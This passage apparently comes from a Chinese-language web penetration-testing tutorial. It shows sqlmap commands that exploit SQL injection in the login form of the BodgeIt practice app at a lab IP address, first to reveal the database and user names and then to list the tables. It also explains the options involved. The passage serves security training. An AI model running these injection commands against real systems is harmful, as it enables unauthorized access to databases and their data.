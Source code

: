```
sqlmap -r bodgeit_login.txt -p username --current-db --current-user --threads 5  
```

此命令产生以下输出。数据库名称为`PUBLIC`，用户名称为`SA`：

![](img/00151.jpeg)

识别数据库名称后，`--tables`和`--columns`选项可用于提取有关表和列的信息。此外，`--data`选项可用于定义`POST`参数，而不是使用包含请求的文件。注意使用`"`（引号）；它们用于使 Linux shell 将整套参数解释为单个字符串，并转义`&`（符号）字符，因为它是 Unix 系统命令行中的保留运算符：

```
sqlmap -u http://10.7.7.5/bodgeit/login.jsp --data "username=23&password=23" -D public --tables  
```

您将看到以下输出：

![](img/00152.jpeg)
